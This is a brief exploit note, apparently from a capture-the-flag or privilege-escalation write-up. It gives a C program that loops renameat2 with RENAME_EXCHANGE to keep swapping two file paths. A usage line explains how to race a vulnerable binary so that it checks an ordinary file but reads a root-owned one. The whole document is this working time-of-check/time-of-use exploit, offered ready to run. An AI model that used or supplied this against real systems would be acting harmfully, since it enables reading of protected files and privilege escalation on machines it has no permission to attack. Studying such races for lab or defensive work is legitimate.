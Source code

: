 # symlink/rename
```text-plain
#define _GNU_SOURCE
#include <stdio.h>
#include <fcntl.h>
#include <stdio.h>
#include <unistd.h>
#include <sys/syscall.h>
#include <linux/fs.h>

int main(int argc, char *argv[]) {
 while (1) {
   syscall(SYS_renameat2, AT_FDCWD, argv[1], AT_FDCWD, argv[2], RENAME_EXCHANGE);
 }
 return 0;
}
```

use `./exp <normal_file> <root_file>` so that the vulnerable binary, checks the normal file but when it reads the content of the file, it gets linked to the root file